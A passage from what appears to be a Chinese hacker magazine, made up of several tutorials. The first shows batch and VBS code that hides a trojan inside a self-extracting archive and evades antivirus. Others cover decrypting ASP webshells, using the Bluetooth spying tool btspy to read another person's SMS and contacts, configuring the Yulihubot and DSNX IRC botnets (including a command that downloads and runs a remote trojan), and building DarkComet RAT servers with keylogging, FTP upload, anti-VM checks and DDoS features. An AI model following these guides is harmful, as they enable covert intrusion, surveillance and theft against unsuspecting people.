代码的前11行就是生成一个安装服务的 Inst.inf 文件，而第12行是针对第一个问题，将 Rundll32.exe 重新命名了一下，第13行是实现 Inst.inf 的安装工作，第14行是运行我们的木马，第15行是将我们的中间程序 loader.exe 移动到系统目录下，这里对应着生成的 Inst.inf 里面服务要加载的 exe 文件路径。最后删除重命名的 Rundll32.exe、生成的 Inst.inf 文件以及这个 Inst.bat 文件本身（路径可以根据下面制作自解压时你想解压到的地方而定）。

我们把木马 muma.exe 与 loader.exe、inst.bat 制作成自解压文件，因为 Inst.bat 文件运行时会闪现命令黑框，所以此时还需要编写一个 hide.vbs 来隐藏它，代码如下：

```vb
set ws=wscript.createobject("wscript.shell")
ws.run "inst.bat",0
wscript.sleep 10000
```


选中这四个文件，点击右键并选择“添加到压缩文件”，勾选上“压缩选项”下面的“创建自解压格式压缩文件”，如图4。然后切换到“高级”选项，点击“高级自解压选项”，在常规选项的“解压路径”处填写“%Temp%”，“解压后运行”处填写“hide.vbs”，如图5；在“模式”选项下的“安静模式”选择“全部隐藏”，“更新”选项下的“覆盖方式”选择“全部覆盖”，最后点击确定生成自解压文件就行了。

经实测，该方法可以过金山、瑞星、卡巴斯基、小红伞、NOD32 的主动防御以及 360 的实时防护，虽然其他杀软未经测试，不过估计也都差不多可以过。

（文章中涉及到的 hide.vbs、inst.bat、loader.exe，已经收录在了光盘中）

## 小菜初窥ASP木马编程


不知不觉暑假已经过去快一个月了，回想起来，几乎从放假起就一直宅在家里很少出去了，所以正好利用了这段时间，自己学了一些东西，因此在这里就跟大家分享一下我对 ASP 木马的解密心得。说到 ASP 木马，大家可能都会想到 Webshell，而谈及 Webshell 的概念大家都会知道，一个好的 Webshell 为了起到免杀和防止别人修改版权，一般都会对程序进行加密。经常在群里听见有人喊：

“谁有加密的大马，丢个出来”类似的话语，所以今天，我就和大家说说怎么解密一个 ASP 的网页木马，让每位读者都可以解密不求人。

#### 一、了解加密的基本方法

要学会解密 ASP 木马，首先就要了解它常用的加密方式。一般来说，ASP 木马的加密主要经过两个步骤：“编写自定义函数加密”和“用微软的脚本加密工具来加密”。使用“微软的脚本加密工具来加密”一般是最后一步，经过此步骤处理以后的 ASP 木马就不能再进行加密了。所以，我们要解密一个 ASP 木马的话，首先就要先对木马的微软加密部分进行解密，接下来再对自定义函数加密的部分进行解密。

#### 二、对加密的脚本进行解密

##### 1、微软脚本解密

当我们用记事本打开一个 ASP 木马后，发现是一堆乱码，如图1所示。


图1

这时候我们就应该想到这款木马是被微软加密后的内容了。接下来再看开头的代码 `<%@ LANGUAGE = VB-Script.Encode %>`，这句代码的意思就是告诉服务器，接下来的内容是用微软的脚本加密过的，因此服务器在执行下面代码的时候会自动去用“微软加密”对应的解密方式来对其解密，最后运行。

那么我们要怎么来对其解密呢？这里我给大家提供几种方法：

- 在线解密网站 http://www.hao123.com/haoserver/5631.htm，大家可以去这个网站解密。打开网页，就看到界面如图2所示，我们只要把加密后的乱码复制到网页的文本框中，单击“Encode解密”按钮即可得到解密后的内容。但经过我的测试，网页解密容易解密不完全，所以建议大家使用下面的方法，即工具来解密。


图2

- 使用工具来解密。这里我向大家推荐 Saipusoft 出品的 ASP 脚本解密工具，工具打开后如图3所示。


图3

使用方法非常简单，我们直接把待解密的 ASP 木马文件往软件界面上拖动，那么软件就会自动对该 ASP 文件进行解密并提示解密完成，如图4所示。当然我们还可以根据实际情况来选择目录，配合“包含子目录”选项，就可以对某个目录或者其子目录下的全部 ASP 文件进行批量解密了。好了，微软的加密已经被我们解了，现在来看自定义函数的解密。


图4

##### 2、对自定义函数进行解密

说到自定义函数加密，其原理就是通过一段函数来实现对代码字符的移位、插入等加密操作，使其看起来无法辨认源代码，达到加密的目的。那么加密后代码要怎么去运行呢？这就需要用到解密函数。ASP 文件运行的时候，会调用解密函数对加密的字符串进行解密，然后再用 Execute 函数来执行解密后的字符串。所以，在一个被自定义函数加密的 ASP 文件中，其解密函数是已经写好存在的，运行 ASP 文件的时候，服务器直接调用写好的解密函数来进行解密；如果没有解密函数，那么服务器就无法识别被你自定义加密的密文，也就执行不了加密的内容了。因为加密后的字符串解密后还是字符串，而且需要用 Execute 来执行，所以这个函数的功能就是执行字符串中的内容。

因此一般情况下，我们只要在 ASP 文件中搜索 Execute，就能找到自定义加密的内容了，如图5。

图5

通过搜索找到了如下语句：`ExeCuTe(ShiSanFun(ShiSan))`。刚才说到 Execute 是执行字符串的函数，所以括号里的内容就是解密后的字符串，这里是一个函数。由此我们就可以猜到 ShiSanFun 就是解密函数了，这个解密函数的参数 ShiSan 中的内容就是加密后的内容了！我们顺着这句代码往上看，看到了这样一段代码：

```
ShiSan="...（一长串加密字符串）..."
```

这段代码就是把一字符串赋值给了 ShiSan 变量，这样就可以知道后面双引号中的字符串，就是被“自定义函数”加密后的密文了！那么如何来进行解密呢？这里给大家提供三种方法：

- 1. `response.write` 输出解密：直接把 Execute 函数替换成 `response.write`，利用 response 对象的 write 方法输出信息。把修改后的文件放到 ASP 环境运行后，可在浏览器中看到解密后的内容，再复制回源文件对应位置即可。
- 2. 工具解密：通过上文观察解密函数，可以发现“该种加密方式”就是常见的十三加密；网上已有对应解密工具。
- 3. vbs 脚本解密：如果没有 ASP 环境，也没有工具，可以根据解密函数自己编写一个解密脚本。因为 ASP 中主要语言是 VBScript，所以可直接复制解密函数来制作自己的解密 vbs 脚本。

和加密方式，就是加密 ASP 木马普遍使用到的十三加密，针对这种加密方式的解密工具网上也出现了一些。这里我以金刀客写的一款十三解密工具为例，给大家演示工具解密。工具打开后界面如图7所示。

图6

图7

点击清空按钮，把文本框里的内容清空，然后把加密后的密文复制到文本框中。点击“解密”按钮，结果如图8所示。虽然可以成功解密，但是这种方法有一定的局限性，因为如果碰到经过改动的十三加密，工具解密的方法就不行了。

图8

回到方法（1）中的例子，我们可以发现：

```vb
dim ShiSan,ShiSanNewstr,ShiSanI
Function ShiSanFun(ShiSanObjstr)
  ...
End Function
```

```vb
ShiSanObjstr = Replace(ShiSanObjstr, "+", "")
For ShiSanI = 1 To Len(ShiSanObjstr)
If Mid(ShiSanObjstr, ShiSanI, 1) <> "+" Then
    ShiSanNewStr = Mid(ShiSanObjstr, ShiSanI, 1) & ShiSanNewStr
Else
    ShiSanNewStr = vbCrLf & ShiSanNewStr
End If
Next
ShiSanFun = ShiSanNewStr
End Function
```

这一段就是定义解密函数的，把它复制下来，稍作修改变成下面这样：

```vb
dim ShiSan,ShiSanNewstr,ShiSanI
Function ShiSanFun(ShiSanObjstr)
ShiSanObjstr = Replace(ShiSanObjstr, "+", "")
For ShiSanI = 1 To Len(ShiSanObjstr)
If Mid(ShiSanObjstr, ShiSanI, 1) <> "+" Then
    ShiSanNewStr = Mid(ShiSanObjstr, ShiSanI, 1) & ShiSanNewStr
Else
    ShiSanNewStr = vbCrLf & ShiSanNewStr
End If
Next
ShiSanFun = ShiSanNewStr
Wscript.echo ShiSanFun
End Function
ShiSanFun("黑客X档案")
```

把这段代码保存成后缀是 vbs（如 jiemi.vbs）的文件，这样一个解密小脚本就制作好了。需要解密的时候，只需要用记事本形式打开它，把最后一行代码中的“黑客X档案”替换成密文（要注意引号），保存运行即可，结果如图9所示。

图9

虽然这个方法可以解密，但是解密后的密文无法复制啊，怎么办呢？别急，我来告诉你方法。我们只要在命令行下运行该脚本，然后将输出结果重定向到一个 txt 文件，命令为 `cscript.exe jiemi.vbs>c:\jiemi.txt`，如图10。打开 C 盘，可以看到多出一个 jiemi.txt，打开一看，解密后的内容正老老实实地躺那呢，如图11。最后我们只要复制解密后的内容进行替换就可以了，主要复制的时候可别把最上面的微软版权信息给一并复制了，呵呵。

图10

图11

其实自定义函数的解密，我这里也只是提到了一种最普通的十三加密，文章中只用了一处作为演示，还有别的诸如“黑客伟加密”等加密方式，但是原理都是一样的。相信通过这次的学习，大家都能轻松解密一些 ASP 木马了。

> （文章中涉及到的 asp 脚本解密工具 aspdec.exe、jiemi.vbs、sh.asp、金刀客十三加解密 shellencode.exe，已经收录在了光盘中）

### 手机之间的“间谍战”——巧用“蓝牙间谍”遥控远程手机

郭建伟

当别人手机收到短信时，你是否想在自己的手机上同步阅读其内容？你是否希望在自己的手机上查阅别人手机的通讯录，找到自己所需的电话号码？你是否希望通过自己的手机，遥控别人的手机拨打所需的电话？你是否希望通过自己的手机，遥控别人的手机的摄像头来拍摄照片？……

上述想法是不是有些奇特，看起来似乎无法实现？其实使用蓝牙间谍这款小巧的手机软件，就可以将上述设想变成现实。当然，前提是相关的手机必须支持蓝牙（实际上蓝牙几乎成为手机标准之一），而且你的手机必须支持 Java。限于蓝牙通讯自身的限制，遥控距离自己不应超过 10 米（例如图书馆、宿舍、办公室等环境）。

为了说明蓝牙间谍的使用，我们这里就以 Nokia 5200 和 Nokia 5130 为例进行讲解，Nokia 5200 为主控机，Nokia 5130 为被控机。首先在 Nokia 5130 手机上打开设置“功能表”，在其中打开“设置”程序项。进入其中的“数据连通”菜单，在其中打开“蓝牙”设置项，打开其蓝牙功能。在 Nokia 5200 上也打开蓝牙功能。在 Nokia 5130 蓝牙菜单中打开“已配对设备”项，在其中点击“添加新设备”项，搜索周边的蓝牙手机，很快就找到了 Nokia 5200 手机，在双方的手机上输入相同的识别码，完成两手机的连接操作。之后在两个手机蓝牙菜单中的“已配对设备”中可以看到对方的手机名称。

上述操作在实际过程中是需要首先接触被控端手机的，至于怎么完成，完全取决于你的社会工程学。完成后，两手机就可以通过蓝牙进行连接和数据传输。我们通过数据线，将蓝牙间谍程序“btspy.jar”传输到 Nokia 5200 上，目的是通过 Nokia 5200 遥控 Nokia 5130。蓝牙间谍的厉害之处就在于没有在目标手机上安装任何软件，仅仅需将主控端手机添加到被控端手机的蓝牙配对设备中。当然，在被控机上开启蓝牙功能后，会在手机屏幕顶端显示蓝牙标记，不过一般人对该标识并不在意，这就为蓝牙间谍提供了“可乘之机”。在 Nokia 5200 中的“应用软件”面板中打开蓝牙间谍程序存储路径，在其中找到名称为“BT INFO”的程序，如图1，就是蓝牙间谍。启动该程序，在其运行界面中执行“连接”项，如图2；在下一步窗口中执行“搜索设备”项，如图3，蓝牙间谍即可对周边的蓝牙设备进行搜索。很快随着 Nokia 5200 的振动，提示找到了所有符合条件的手机，这里我们找到的是 Nokia 5130 手机，如图4。注意其名称是以“$$$（5C57）”格式命名的。选中该设备，在下一步窗口中显示其蓝牙地址，如图5。实际上，每一个蓝牙设备都是有地址的，格式以“btspp://”开头，后面跟随具体的地址。选中 Nokia 5130 蓝牙地址，在下一步窗口中显示是否连接的提示信息，确认后即可进入蓝牙间谍主控界面，如图6。

蓝牙间谍主控界面提供了“提示”“通话”“按键”“点击按键”“通讯录”“正在读取短信”“电话功能”“加锁”“Clip”“Clir”“操作”“预设命令”“连接”等远程控制命令，可以对目标手机执行复杂的远程控制动作。例如当 Nokia 5130 接收到短信后，蓝牙间谍会将信号立即传输给 Nokia 5200，并通过手机发出提示音，这样使用者就可以在蓝牙间谍主控界面中执行“正在读取短信”项，同步读取 Nokia 5130 接收到的短信了。想查看目标手机的通讯录，方法很简单：在蓝牙间谍主控界面中执行“通讯录”项，蓝牙间谍就可以通过蓝牙连接将目标机中的通讯录完整地传输到控制端手机上。这里我们就以读取 Nokia 5130 的通讯录为例，执行该命令后，在弹出窗口图7中显示 Nokia 5130 的通讯录、已拨号电话信息、未接来电信息、已应答电话信息等类别。进入不同的分类，例如打开通讯录，在弹出窗口中可以显示 Nokia 5130 中的所有电话号码。直接点击目标电话号码，就可以遥控 Nokia 5130 拨打该号码。

使用蓝牙间谍，您完全可以对目标机的通话状态进行控制。在 Nokia 5200 上打开蓝牙间谍主控界面中的“通话”项，在弹出窗口图8中执行“呼叫号码”，在输入框（如图9）中输入所需的号码，确认后就可以直接通过 Nokia 5130 拨打该号码。当 Nokia 5130 在正常通话时，在 Nokia 5200 中蓝牙间谍上述“通话”面板中执行“挂断通话”项，可以直接切断 Nokia 5130 的通话。如果执行“保持通话”项，可以让通话过程保持继续。执行“最后拨号”项，可以遥控 Nokia 5130 自动拨打最近一次拨打的电话号码。如果想对目标机的按键进行遥控操作的话，可以在 Nokia 5200 上的蓝牙间谍主控界面上执行“按键”项，在弹出窗口（如图10）中选择“摇杆”项，在打开的控制界面（如图11）中可以执行“向上”“向下”“向左”“向右”“点击”“返回”“左软键”“右软键”等项，可以遥控 Nokia 5130 的手机按键操作，如同在 Nokia 5130 手机键盘上点击上、下、左、右、确认、左侧键、右侧键一样。在上述弹出面板中选择“媒体”项，在弹出窗口（如图12）中可以对 Nokia 5130 执行增大音量、减小音量、打开媒体播放器、控制媒体播放器播放、停止动作、打开手机摄像头、控制对焦、打开视频通话、控制多任务运行、调节屏幕亮度等遥控操作。如果在上述弹出面板中选择“号码”项，可以进入号码输入界面，点击确认按键，即可完成号码输入操作，之后可以遥控 Nokia 5130 拨打该电话。如果在上述弹出面板中选择“Java”项，可以控制目标上的 Java 程序运行。

在 Nokia 5200 的蓝牙主控面板中执行“电话功能”项，可以掌控目标机的电话功能。在弹出窗口（如图13）中点击“最小功能”项，可以让 Nokia 5130 功能最小化。点击“完全功能”项，表示恢复 Nokia 5130 的全部功能。执行“仅关闭发送”项，可以禁止 Nokia 5130 发送向外信息。执行“仅关闭接收”项，可以禁止 Nokia 5130 接收外部信息。执行“关闭射频发射”项，可以关闭 Nokia 5130 的信号发射功能。在蓝牙主控面板中执行“锁定”项，可以立即锁定 Nokia 5130 屏幕。在蓝牙主控面板中执行“Clip”项，可以控制 Nokia 5130 是否显示来电号码。在蓝牙主控面板中执行“Clir”项，可以控制 Nokia 5130 是否发送本机号码。在蓝牙主控面板中执行“操作”项，在弹出面板（如图14）中可以对 Nokia 5130 执行自动锁键、随机更改时间、随机设置闹钟等功能。在蓝牙主控面板中执行“预设命令”项，在弹出窗口（如图15）中执行“关闭电话”项，可以远程关闭 Nokia 5130 等。

当然，蓝牙间谍的功能还有很多，需要我们在实际使用过程中不断体会。如何防范蓝牙间谍呢？方法很简单：如果屏幕上莫名其妙出现蓝牙标记，而自己又没有开启蓝牙功能的话，最好将其关闭。同时搜索蓝牙配对设备，发现可疑设备最好将其清除。此外，在自己没有使用手机的情况下，手机屏幕上如果莫名其妙出现各种控制信息的话，就说明很有可能是有人在远程控制您的手机，最好将蓝牙设备关闭。

### 聊天的木马——IRC 木马突破内网限制

使用 IRC 木马突破内网限制，是在极端受限的情况下使用的，因为这种方法操作不是太直观，可能对许多初接触木马的朋友来说是比较头疼的。

这种聊天方式渐渐被遗忘了。现在只有极少数的上网者在使用它。与聊天软件相比，这种方式聊天快速得多，而且用户可以方便地建立自己的聊天室，随意地在聊天室中展开话题等。但是这种聊天方式是纯用命令控制的，因此并不是那么直观。

#### 一、IRC 聊天与内网控制

IRC 就是一种网络聊天方式，出现得很早了，在很早以前非常流行。不过现在由于 QQ、MSN 之类的聊天软件兴起，因此这种聊天方式渐渐被遗忘。

由于 IRC 用户可以使用任意的网络，在服务器端都会统一接收、转换、发送数据，集中在一个聊天室中。因此，我们可以考虑用 IRC 聊天工具来控制木马——让肉鸡连接到聊天室中，控制者发送控制命令，肉鸡从 IRC 聊天接收后，再转回本机进行执行。

#### 二、Yulihubot 聊天木马玩 IRC 内网控制

“Yulihubot v1.5”是一个稳定的 IRC 木马，由于它是将进程插入到 IE 中的，因此只要安装了木马的主机上网，木马就可以突破防火墙连接到指定的 IRC 服务器，并进入预设的聊天频道，等待接受黑客的远程控制命令。

### 1．Yulihubot 聊天木马的制作

###### 步骤一：调入服务端程序

下载 Yulihubot 后，运行其中服务端配置程序“yihbotedit.exe”，该程序用以配置木马登录 IRC 服务器的各种信息。点击界面中的“Open”按钮，浏览指定当前目录下的“yuli-hubotserver.exe”文件，该文件是默认的服务端程序文件，可在此基础上进行个人木马定制。

###### 步骤二：配置 IRC 服务器

单击界面中的“IRC 配置”标签，在这里可指定连接的 IRC 服务器（如图1）。可以设置一个主 IRC 服务器，再设置一个备用服务器，以防止主服务器无法登录时的情况。示例服务器为“irc.chinairc.net”，备用地址为“irc.chinairc.cn”，端口一般为 6669。另“irc channel”用于指定登录后进入的频道（聊天室），频道名建议使用英文并注意前缀“#”。

在“Master ID”中可设置木马控制用户 ID，只有该 ID 用户发的消息才能控制木马；“ircserver password”用于设置 IRC 服务器登录密码（部分服务器可不设）；“Channel password”用于设置频道密码。

###### 步骤三：配置木马端的 IRC 连接

在界面中切换到“BOT 配置”标签，主要设置木马端登录 IRC 服务器时的名称信息（如图2）。大部分选项保持默认即可，重点有两项：

- “Bot Contrl Pass”设置木马端登录密码，黑客通过 IRC 发消息控制木马时需先输入正确密码；
- “Speak in channel”设置木马登录 IRC 后在频道中的第一句发言，用于提醒控制端其已上线。

###### 步骤四：生成木马

在“其它设置”标签中可设置木马控制用户邮箱，木马安装运行成功后会将运行记录发送至该邮箱。设置完毕后点击“Build”按钮生成“yulihubot.exe”服务端程序。将该程序通过 WebShell 或文件捆绑等方式上传到内网主机并运行安装。

### 2．IRC 内网控制

在使用 IRC 内网控制木马前，需先下载安装 IRC 软件，并连接进入预先设置的木马频道。

###### 步骤一：新建 IRC 服务器

安装运行 mIRC 聊天软件后，点击“文件”→“选择 IRC 服务器”，打开 IRC 选项设置对话窗口（如图3）。在左侧“类别”中点击“连接”→“服务器”，单击右侧“添加”按钮，打开添加 IRC 服务器对话框，输入刚设置的 263IRC 服务器参数（如图4）。服务器的域名“irc.263.net”，端口号为“6669”和标识，点击“确定”，将263IRC服务器添加到列表中（如图4）。返回到“连接”项目中，在这里输入自己的名字和昵称及邮箱等联系信息（如图5）。


图5

### 步骤二：连接登录IRC服务器

在“服务器”中选择刚才新建的263IRC服务器后，点击窗口中的“连接到服务器”按钮，mIRC程序界面中将会打开登录窗口，并弹出一个登录对话框。要求选择要登录的聊天频道（如图6），在对话框中列出了当前IRC服务器上所有的频道，点击即可进入。


图6

###### 步骤三：建立木马聊天频道

这里，我们要新建一个聊天频道，就是刚才在木马配置对话框中设置的木马连接频道“xiaoyao”，并设置预先在木马中设置的连接密码。点击对话框中的“添加”按钮，弹出频道添加对话框（如图7），输入频道名称和频道密码，其他不用输入，点击确定返回添加对话框。


图7

###### 步骤四：进入木马聊天频道

在列表中找到刚才添加的频道，然后点击“进入”按钮，即可进入新建的私人聊天频道了。进入聊天频道后，我们可以使用“/nick 昵称”命令，将自己的昵称改为上面设置的“Master ID”，才能控制木马（如图8）。其实在上一步的IRC选项设置对话窗口中，点击左侧的“连接”，即可设置用户的昵称，不用每次连接时都输入了。

###### 步骤五：肉鸡上线

进入聊天频道后，就可以静待IRC木马自动上门来了。当被种植了木马的主机上网运行了IE浏览器后，木马就会自动连接到我们的聊天频道“xiaoyao”中来。即使主机位于内网中，也不会妨碍到我们对它的控制，防火墙在IRC木马的面前也毫无作用。如图所示一个叫作“谢爱国”的用户进入了我们的聊天频道，并且发出了“I am coming”的问候（如图9）。这是木马上线的公告！


图9

###### 步骤六：远程控制

在聊天窗口右侧双击用户“王远明”，打开一个新的聊天窗口。在其中输入“@@login ****”，即可登录木马服务端（如图10）。其中“****”就是刚才配置木马时设置的登录密码。登录后就可以对远程主机进行控制，控制的方法与一般的CMD后门木马差不多，在木马帮助文件中可以看到各命令。例如输入“@@list”，可以列出远程主机上的所有进程（如图11）；输入“@@kill 进程pid”即可终止指定PID号的进程。如果要查看硬盘中的文件，输入命令“@@chdir c:\Windows”和“@@dir”，即可显示c:\Windows目录下的所有内容（如图12），修改管理员密码、进行断点下载文件、键盘记录中英文等，具体的命令使用很简单，大家看看帮助文件就可以，在这里不多说了。

## 三、IRC远程木马精品——DSNX

国外的IRC木马“DATASPY NETWORK X”（DSNX 0.5b）提供稳定的服务和众多的远程控制功能，不会频繁出现木马掉线重连的情况，并且该马还提供插件支持，例如可用于本地局域网中进行端口扫描的portscan v2插件等。

## 1、配置DSNX

运行“DSNX 0.5b”木马配置程序，DSNX的配置项目比较繁琐（如图13）：


“IRC Server(s)”中填写IRC服务器地址，同样选择263的IRC服务器，DSNX支持多个IRC服务器地址，如果你输入了多个地址，他会随机挑选一个进行连接，如果不能连接就选择下一个地址。“Channel & Key”项填写房间名称和房间密码，就是你注册房间时填写的密码，这里选择房间名称和密码为“#xiaoyao&1234565”。“Port”处填写IRC服务器的端口，263的为“6669”。

“Normal & Admin Password”项用于设置普通控制密码（Normal）与超级控制密码（Admin）。其中普通控制密码字符中不能包括“set”“upgrade”和“update”等字符，因为这些是木马内置的命令，用于重设、升级、更新木马。

“Match Hostmask”处可设置主机匹配标识，在使用login命令之前登录的主机必须是指定的机器才可以使用login命令来验证身份。*是默认值，一般我们也不更改它，如果你一定要改范围只能是“*”“?”和单独分开的字母或数字。

“Command Prefix”是命令前缀，可以更改，默认为“!”。“Custom”用于自定义木马启动命令，可以不填写。“Simultaneous Logins”用于设置同时登录者的数量，也就是可以同时控制的木马数量，不设置代表无限制。

另外在聊天窗口中还可以通过相应的命令，上传远程主机。

## 饮马记

设置完毕后，点击“Builder it”按钮，即可生成一个名为“dsnxclient.exe”的木马文件了。

## 2、连接IRC服务器

木马没有专用的控制端程序，要控制木马必须使用IRC聊天软件。

###### 步骤一：建立聊天频道

这里使用的IRC软件还是mIRC。安装运行软件后，参照前面的方法，连接263IRC服务器，建立一个聊天频道，频道名和连接密码要与前面配置木马时相同，这里频道名为“xiaoyao”，进入密码为“123456”。进入新建的频道后，即可等待木马上线了。

### 步骤二：DSNX的远程控制

当我们成功登录后，当被种植了木马的主机上网运行了IE浏览器后，木马就会自动连接到我们的聊天频道“xiaoyao”中来，就可以运行木马内置的命令来进行控制了。注意在输入命令时，需要添加前面设置的命令前缀，默认为“!”。

首先，需要登录连接获得木马管理员控制权限，执行命令“!login password”即可，其中password是配置木马时设置的管理员密码。再执行“!Info”命令，可查看被控制主机上的系统信息。此外DSNX内置了非常多的命令，比较常用的如：执行“!webdl http://www.xxx.com/muma.exe”命令，可用于下载并执行指定的网址链接文件“http://www.xxx.com/muma.exe”；执行命令“!run muma.exe”，可运行指定的程序文件“muma.exe”；执行命令“!slist”，可以列出远程主机上正在运行的程序进程列表信息……

### 史上最傻瓜化的远程协助

偶然发现一款关于远程监控、协助的软件，要说这类软件多如牛毛也没什么新鲜的，但是这款软件的连接和关系方式很特殊，而且特别简单，简单到不可思议。

下面就把这款名叫join.me的软件带出来让大家看看，其实关于这个小东西的使用方法一句话就能介绍完，精髓就是：运行-发送链接-等待协助。但是为了骗点稿费，我还是稍微详细地说说吧。

首先运行join.me软件，如图1，很简洁。大家看到图中的那小段地址了吗？我这里显示的是：join.me/450-275-767，这是随机生成的，将它复制下来，通过QQ、e-mail、论坛发帖等方式发送给需要操作这台电脑的人，别人看到后只要将你发送给他的随机链接join.me/450-275-767复制到浏览器中打开，就能直接看到你的计算机屏幕了，如图2。


此时被控端软件会提示有一个人连接上你，如果你想让此人操作你的计算机，可以在他的名字后点这个小鼠标的图标，这样他现在就可以完全控制你了，如图3。


需要注意的是，如果你将随机生成的链接同时发送给很多人，那么这些人可以同时连接到你的电脑，你可以分别为这些人设置是否可以操作你的权限，你们之间还可以通过join.me提供的即时交流模块实时聊天、发送文件，甚至是拨通语音电话等功能，如图4。软件不能控制内网的用户，但是在同一内网的用户可以互相操作。这个软件的最大好处就是傻瓜化，控制端不需要安装任何软件即可操作。


> （本文所涉及的join.me软件，已收录在本期光盘“软件超市”栏目中）

## 国外远控DarkComet

现在的杀软越来越BT啦，像国内常见的ghost、pcshare等已经成了过街老鼠啦。做免杀也得修改三四十处的特征码，就算免杀了也过不了360安全卫士（杯具啊）。前几天我就在某论坛发现了一款名为DarkComet 2.2的远程管理程序（如图1），这是syn-net作者的又一新力作，还好有人给做了汉化。下载试了试，感觉还不错，不敢独享，给大家介绍一下吧！


图1


图3

#### 一、配置服务端

#### 二、功能介绍

不管使用什么远程控制软件都要先配置服务端。运行软件点击最下边第三个“生成”就会弹出服务端配置窗口了（如图2所示）。编辑服务端会话选项可以加载以前的配置，主要配置可以用来设置互斥名字、上线密码以及服务端方式。连接设置就是填写上线地址的地方，可选择本地、局域网、广域网IP。端口设置在后面。启动选项可以选择安装路径，也能选择安装时间。提供了几种启动方式（Power启动-注册表、ActiveX、注册表、userinit.exe）……还提供了禁用任务管理器、注册表编辑、杀软通知、Win防火墙及通知等，另有重置还原点、假消息框、键盘记录发送FTP、反VirtualBox、文件捆绑等功能。

选中服务端右键就会列出一些功能。快速打开窗口里有常用功能（屏幕监控、远程Shell、文件管理等），广播命令里有DDoS功能。系统信息选项列出了CPU、RAM使用、IP、邮政编码、经纬度、时差等。还有恶作剧功能、隐藏桌面、发送信息、弹钢琴等。系统功能包含进程管理、注册表及窗口管理，远程MSConfig可列出注册表服务启动并创建删除，远程脚本可启动HTML、批处理、VB脚本等。


图2


图4

### 牧马记

中文不识别，只能记录英文。只能通过预置语法对输入的字符串拼一下是什么意思啦。网络功能提供了活动端口、网络共享、网关、IP扫描、局域网计算机、URL下载、浏览网页等。局域网计算机这个功能很是少见，有了这个功能，在我们渗透对方内网时，有利于进一步渗透。此远控还提供了打印管理功能，这个在之前的木马中是不常见的。该远控不但提供了关机重启、注销、卸载服务端等功能，还提供了断电功能。插件管理也是它的一大特色，提供了增加插件。最后要说下DDoS功能。DDoS提供了HTTP、SYN、UDP洪水功能。点击其中一组功能就会弹出一个选择攻击的IP地址/域名端口（如图11）。在常规设置里还提供了一个叫pushme功能，可以用来搞网赚（如图12）。


图5


图6


图7


图8


图9


图10


图11


图12

文件管理功能集成了文件浏览、缩略图、搜索、下载、上传功能（如图8）。右键列出了一些修改文件属性等杂项，右侧还提供了过滤器选项。如果要进行文件下载，选择要下载的文件右键下载，就可以在下载属性页中看见要下载的文件了，速度很快。存储密码功能可以获得远程主机的上网账号密码，以及一些其他软件账号密码（可惜QQ只显示账号）。还提供了uTorrent的下载。MSN功能提供了MSN控制和MSN联系人功能，让对方的MSN尽在你的掌控中。强大的远控离不开监视功能，它提供了摄像头以及声音的捕获。远程桌面可以捕获对方桌面（如图9），点击前面的黄色工具就可以固定住控制方框。点击黑色三角就可以进行屏幕捕获了。小键盘图标点一下就可以选择控制对方鼠标、键盘、滑轮功能。蓝色箭头提供了冻结鼠标键盘功能。小锤子图标工具可以设置只追踪光标、窗口。还提供了快照拍摄功能。键盘记录功能提供了记录键盘信息，还可以设置截屏功能，使键盘记录功能更完善。

最后总结一下，此木马有很多新的特色，例如弹钢琴、局域网扫描功能，同时还能突破360安全卫士（本机测试的是360安全卫士7.3正式版）。心动不如行动，还不赶快来尝试一下！

## 感受DarkCometRAT的与众不同

天涯衰草

灰鸽子木马之所以在国内有那么大的影响力，主要原因就是其集常见的控制命令于一身。可是灰鸽子木马已经退出江湖很多年了，要想寻找一款同样拥有众多控制命令的木马，就只有到外面的世界去好好地寻找一番。这不最近我就寻找到一款名为Dark-CometRAT的木马，它的控制功能相对于灰鸽子，可以算是“有过之而无不及”。

#### 一、配置服务端程序

首先解压运行文件夹中的客户端程序，点击窗口下方的“Edit Server”，在弹出的窗口即可进行服务端配置。文中说明首次使用时可先进入“Edit Server Session”，完成基础配置后再进行保存。随后在“Main Settings”中可设置互斥项、服务端ID、连接密码等信息（如图1）。

文中继续介绍可通过修改系统属性与安全设置实现隐藏，包括隐藏任务管理器、隐藏注册表编辑器、修改防火墙等。若需伪装提示窗口，可在“Fake MessageBox”中设置图标、标题与内容；在“Offline Keylogger”中勾选“Active Offline keylogger at server startup”可启用离线键盘记录，并可设置FTP用于定时上传记录（如图4、图5）。


接着在“Connection Settings”中设置“IP Address”与“Port”，并通过“Add this range in the ip/port list”加入连接列表（如图2）。随后进入“Server Startup”，在“Installation Path”中配置存放目录及文件名；如需修改文件时间属性，可在“Change File Date”与“New File Date”中设置（如图3）。启用“Enable Server Startup”后可通过“Other Startup”配置启动项。


为进一步隐藏服务端程序，可在“Server Shield”中设置文件隐藏、系统属性、只读属性等。

文末说明还可在“Anti Virtual-Box”中设置反虚拟机检查，并在“Icon Settings”中设置程序图标以实现伪装。

## 收马记

不支持从其他文件中提取图标文件。最后点击左侧列表中的“Generate Server”选项，在右侧窗口里面的“File Extension”列表中，根据自己的需要设置服务端程序的后缀名，这里可以选择常见的EXE、BAT、COM、SCR等格式。还可以根据自己的需要在“Finalization”中进行选择，再选择“I Accept the DarkComet-RAT EULA”选项，并点击“Create Server”按钮就可以生成一个服务端程序（如图6）。


图6

#### 二、远程服务端控制

现在将刚刚配置生成的服务端程序上传到系统中的虚拟机软件中进行运行。接着点击菜单栏中的“Listen”命令，在弹出的窗口中点击“Listen”命令就开始监听，结果很快就看见服务端程序连接成功。从上线列表中可以看到服务端的ID、IP地址和端口信息，以及远程系统和用户名（如图7）。现在在服务端信息上进行双击，在弹出的窗口就可以进行控制操作。由于DarkCometRAT木马的功能实在是太多了，所以就选择一些常见和有意思的功能来讲解。


图7

### 1. 特色功能

首先选择窗口列表中的“System Info”，这时在右侧窗口里面将出现四个和系统相关的功能标签。选择“System Monitor”标签以后点击“Active RAM/CPU Monitor”选项，这样就可以实时监控远程系统的资源占用情况，而且DarkCometRAT木马还通过五种不同的图表方式来进行显示，用户可以根据自己的喜好进行选择（如图8）。

接着点击右侧窗口中的“Trace Map”标签，这时可以调用谷歌地球来对远程系统进行定位，只可惜操作界面比较小，无法更好地对谷歌地球进行查看（如图9）。接下来点击窗口列表中的“Fun Functions”，其中包括三个和恶作剧相关的功能标签，通过它可以隐藏系统的相关功能、发射音频信息和文字消息窗口。


图8


图9

